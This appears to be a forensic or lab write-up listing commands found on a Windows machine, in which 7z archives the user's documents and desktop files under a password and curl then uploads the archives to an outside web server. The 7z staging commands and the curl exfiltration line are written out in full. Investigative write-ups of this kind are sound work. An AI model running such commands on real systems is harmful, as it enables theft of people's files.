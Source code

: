 **3 archive files were created:**
1. **At 1/31/2024, 11:44:58 AM command used:**
```
7z.exe a -t7z C:\Users\romclovin\Documents\MyStolenDataFromDocuments.7z C:\Users\romclovin\Documents\*.docx -p thruthW!llS3tUfree
```

2. **At 1/31/2024, 11:48:33 AM command used:**
```
7z.exe a -t7z C:\Users\romclovin\Documents\MyStolenDataFromDesktop.7z C:\Users\romclovin\Desktop\*.docx -p thruthW!llS3tUfree
```

3. **At 1/31/2024, 11:49:47 AM command used:**
```
7z.exe a -t7z C:\Users\romclovin\Documents\DankMemes.7z C:\Users\romclovin\Memes\*.jpg -p thruthW!llS3tUfree
```

**Archive password for encryption**: thruthW!llS3tUfree

**Data exfiltrated at 2/1/2024, 2:14:32 AM using command:**
```
curl -F "file=@C:\Users\romclovin\Documents\*.7z" https://hirejob.com/exfil_processor/upload.php
```

